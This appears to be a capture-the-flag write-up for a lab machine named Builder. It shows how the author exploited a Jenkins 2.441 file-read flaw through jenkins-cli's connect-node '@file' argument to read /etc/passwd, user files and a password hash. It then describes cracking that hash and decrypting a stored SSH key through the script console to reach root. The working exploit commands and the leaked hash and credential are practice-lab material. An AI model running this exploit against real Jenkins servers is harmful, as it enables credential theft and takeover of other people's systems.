

# Builder Writeup
<figure></figure>

### Target IP 10.10.11.10

## Enumeration
Nmap Scan:
```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
8080/tcp open  http    syn-ack Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On opening the page which is served on `8080`. There is a jenkins dashobard.

<figure></figure>

The jenkins version is mentioned in the bottom right which is `2.441`. On the people tab there are two users `jennifer` and `anonymous`. 

After a quick serach for the version I got a CVE through which I could some some file reading.

To exploit this vulnerability we need to download the command-line client `jenkins-cli.jar`.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
--2024-05-22 23:16:33--  http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.10.11.10:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar.1’

jenkins-cli.jar.1                             100%[===============================================================================================>]   3.46M   746KB/s    in 7.0s    

2024-05-22 23:16:40 (508 KB/s) - ‘jenkins-cli.jar.1’ saved [3623400/3623400]
```

## User Flag

Using the jar file I can read some contents from the machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/etc/passwd"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

The home for jenkins is `jenkins_home` so we can fetch the user flag from there.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/var/jenkins_home/user.txt"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: No such agent "ab4f64aa98733a84a56e7ea537a5f0f4" exists.
```

And we got the user flag.

## Root Flag

According to the storage structure information about the user is stored in `/users/users.xml`.

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' -http connect-node "@/var/jenkins_home/users/users.xml"           
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
May 22, 2024 11:02:58 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

I can get the user hash from the `config.xml`

```
┌──(kali㉿kali)-[~/Desktop/htb/builder]
└─$ java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' -http connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
May 22, 2024 11:03:50 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such agent "    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">" exists.
    <hudson.search.UserSearchProperty>: No such agent "    <hudson.search.UserSearchProperty>" exists.
      <roles>: No such agent "      <roles>" exists.
    <jenkins.security.seed.UserSeedProperty>: No such agent "    <jenkins.security.seed.UserSeedProperty>" exists.
      </tokenStore>: No such agent "      </tokenStore>" exists.
    </hudson.search.UserSearchProperty>: No such agent "    </hudson.search.UserSearchProperty>" exists.
      <timeZoneName><SNIP>
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.
```

On decrypting the `blowfish` hash we get the credentials `jennifer:princess` through which we were able to login to the console.

<figure></figure>

On going to the credentials page, there is an ssh but we are not able to open it.

<figure></figure>

But on going over the page source we can see that the ssh key is in an encrypted format.

<figure></figure>

I can go to the `script console` to decrypt that to gain the ssh key.

<figure></figure>

And I logged in as root to get the `root.txt`.

<figure></figure>

The machine is rooted.

Thank you!! Happy Hacking :D